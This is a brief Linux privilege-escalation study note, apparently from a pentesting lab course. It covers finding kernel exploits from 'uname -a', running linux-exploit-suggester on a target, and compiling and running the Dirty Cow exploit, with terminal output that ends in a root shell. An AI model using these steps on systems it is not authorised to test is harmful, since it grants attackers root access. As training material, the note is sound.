 ### Kernel Exploits

Kernel Exploits - https://github.com/lucyoa/kernel-exploits

Use this page to check for kernel exploits against the kernel information you grabbed from `uname -a`

You can also run the linux exploit suggestor from the Automated tools section

`./linux-exploit-suggester`      - you'll need to get this onto the victim device and make it executable.

If you get things that need to be compiled, such as exploits in .c, you can use the following command to compile it so you can run it.

`gcc -pthread cOw.c -o cow`

This is for a well known vulnerability called Dirty Cow.  For this one, you'll actually get the script to run, it will look like it didn't work but if you type in `passwd`, you get this....

```
TCM@debian:~/tools/dirtycow$ ./cow 
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 9517b000

madvise 0

ptrace 0

TCM@debian:~/tools/dirtycow$ id
uid=1000(TCM) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
TCM@debian:~/tools/dirtycow$ whoami
TCM
TCM@debian:~/tools/dirtycow$ passwd
root@debian:/home/user/tools/dirtycow# whoami
root
root@debian:/home/user/tools/dirtycow# 
```

Now I have root.

If something feels like it may not be working, check documentation on that tool.  There may be more steps.  